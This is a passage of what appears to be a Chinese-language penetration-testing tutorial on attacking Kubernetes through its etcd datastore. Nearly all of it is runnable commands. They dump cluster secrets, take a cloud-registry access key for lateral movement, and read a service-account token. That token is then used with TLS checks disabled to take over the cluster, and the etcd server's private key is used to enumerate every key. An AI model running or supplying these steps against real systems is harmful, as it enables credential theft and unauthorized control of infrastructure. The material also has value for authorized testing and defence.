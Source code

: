查看 K8s secrets

```bash
etcdctl get / --prefix --keys-only | grep /secrets/
```

获取集群中保存的云产品 AK，横向移动：

```bash
etcdctl get /registry/secrets/default/acr-credential-518dfd1883737c2a6bde99ed6fee583c
```

读取 service account token

```bash
etcdctl get / --prefix --keys-only | grep /secrets/kube-system/clusterrole
```

通过 token 认证访问 API-Server，接管集群：

```bash
kubectl --insecure-skip-tls-verify -s https://127.0.0.1:6443/ --token="[ey...]" -n kube-system get pods
```

**证书使用**  
查看链接状态

```bash
sudo ./etcdctl --key=/etc/kubernetes/pki/etcd/server.key --cert=/etc/kubernetes/pki/etcd/server.crt --cacert=/etc/kubernetes/pki/etcd/ca.crt --endpoints https://127.0.0.1:2379 endpoint health
```

[![](assets/1701826061-4c7f71b41ccc96844d965659495a1d3a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170439-877d434e-7315-1.png)  
查看集群状态

```bash
etcdctl --write-out=table --key=/etc/kubernetes/pki/etcd/server.key --cert=/etc/kubernetes/pki/etcd/server.crt --cacert=/etc/kubernetes/pki/etcd/ca.crt --endpoints https://127.0.0.1:2379 endpoint status
```

[![](assets/1701826061-cb358c9a1777c706bf92719849421796.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170458-92612000-7315-1.png)  
列出所有的 keys

```bash
./etcdctl --key=/etc/kubernetes/pki/etcd/server.key --cert=/etc/kubernetes/pki/etcd/server.crt --cacert=/etc/kubernetes/pki/etcd/ca.crt --endpoints https://127.0.0.1:2379 get / --prefix --keys-only
```
